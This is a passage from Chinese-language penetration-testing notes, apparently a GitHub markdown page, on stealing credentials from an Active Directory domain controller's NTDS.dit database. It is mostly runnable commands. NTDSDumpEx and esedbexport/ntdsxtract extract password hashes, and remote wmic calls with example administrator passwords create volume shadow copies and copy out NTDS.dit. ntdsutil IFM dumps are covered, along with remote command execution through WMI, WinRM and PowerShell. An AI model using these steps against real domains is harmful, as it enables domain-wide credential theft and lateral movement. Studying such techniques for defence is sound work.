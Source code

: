 ```bash
    NTDSDumpEx.exe -d ntds.dit -o hash.txt -s system.hiv 
    进一步从NTDS.DIT获取详细的信息:
        https://github.com/libyal/libesedb/releases
        $ ./configure
$ make
        $ sudo make install
$ sudo ldconfig
        root@kali2:~/Desktop/temp# /usr/local/bin/esedbexport -m tables "/root/Desktop/temp/Active Directory/ntds.dit"  
        (ntds.dit中提取出表，20分鐘，两个重要的表为:datatable以及link_table，他们都会被存放在./ntds.dit.export/文件夹中.)
    使用ntdsxtract提取域中信息，一旦表被提取出来，很多python工具可以将这些表中的信息进一步提取，比如ntdsxtract就可以完美进行。
        https://github.com/csababarta/ntdsxtract.git
        root@kali2:~/Desktop/ntdsxtract-master# python dsusers.py /root/Desktop/temp/ntds.dit.export/datatable.3 /root/Desktop/temp/ntds.dit.export/link_table.5 output --syshive /root/Desktop/temp/registry/SYSTEM --passwordhashes --pwdformat ocl --ntoutfile ntout --lmoutfile lmout |tee all_user_info.txt
        root@kali2:~/Desktop/ntdsxtract-master# python dscomputers.py /root/Desktop/temp/ntds.dit.export/datatable.3 computer_output --csvoutfile all_computers.csv
        ![mimikatz-lsa](域渗透相关/libesedb__ntdsxtract__ntds.dit.png)
6. 可创建和使用GOLDEN TICKET
7. 卷影复制(VSS)
    ntds.dit我们是没法直接进行复制拷贝的，会提示文件已被占用，这个时候我们可以通过windows提供的卷影复制功能来复制被进程占用的文件(xp和server 2003以上都存在此功能)
    1.wmic /node:AD /user:PENTEST\Administrator /password:123qwe!@# process call create "cmd /c vssadmin create shadow /for=c: 2>&1 > c:vss.log"
    2.wmic /node:AD /user:PENTEST\Administrator /password:123qwe!@# process call create "cmd /c copy 卷影ID/Windows/NTDS/NTDS.dit C:/windows/temp/NTDS.dit 2>&1"

8. 其他 - 转储活动目录数据库(ntds.dit)凭证的方法总结
    How Attackers Dump Active Directory Database Credentials
        https://adsecurity.org/?p=2398
    [译]转储活动目录数据库凭证的方法总结 
        http://drops.xmd5.com/static/drops/pentesting-12020.html
        之前两篇关于如何转储 AD 数据库凭证的文章： 
            a. 攻击者如何从一个域控制器中读取活动目录数据库(NTDS.DIT)(https://adsecurity.org/?p=451)
            b. 在 Active Directory 域中获得管理员权限的攻击方法(https://adsecurity.org/?p=2362  [译]https://xianzhi.aliyun.com/forum/topic/115)

8-0x00 远程执行命令方式
    有几种不同的方式可以在域控制器上远程执行命令,假设它们已经有了相应的执行权限。最可靠的远程执行方法包括两种 PowerShell(利用 WinRM )和 WMI。

    WMI
    Wmic /node:COMPUTER/user:DOMAIN\USER /password:PASSWORD process call create "COMMAND"

    PowerShell (WMI)
    Invoke-WMIMethod -Class Win32_Process -Name Create –ArgumentList $COMMAND –ComputerName $COMPUTER -Credential $CRED

    WinRM
    winrs –r:COMPUTER COMMAND

    远程 PowerShell
    Invoke-Command –computername $COMPUTER -command { $COMMAND}
    New-PSSession -Name PSCOMPUTER –ComputerName $COMPUTER; Enter-PSSession -Name PSCOMPUTER

8-0x01 使用 NTDSUtil 创建 IFM 抓取 DC 本地的Ntds.dit文件 (VSS 卷影复制)
    NTDSUtil一个本地运行的针对活动目录数据库(ntds.dit)的命令,并且允许为DCPromo准备IFM集。
    IFM是用于DCPromo命令中"从媒体安装"这一过程的,所以,在配置域控时就不需要通过网络从其他域控拷贝数据。
    IFM集,并且也会在c:/temp目录下生成的一份NTDS.dit附件。
        ntdsutil "ac i ntds" "ifm" "create full c:\windows\temp\temp" q q
    创建了temp目录,下面会生成 ntds.dit 和 SYSTEM / SECURITY
    这个命令也可以通过 WMI 或 PowerShell 远程执行。

8-0x02 使用 VSS 卷影副本远程读取 ntds.dit(通过 WMI or PowerShell 远程管理)
```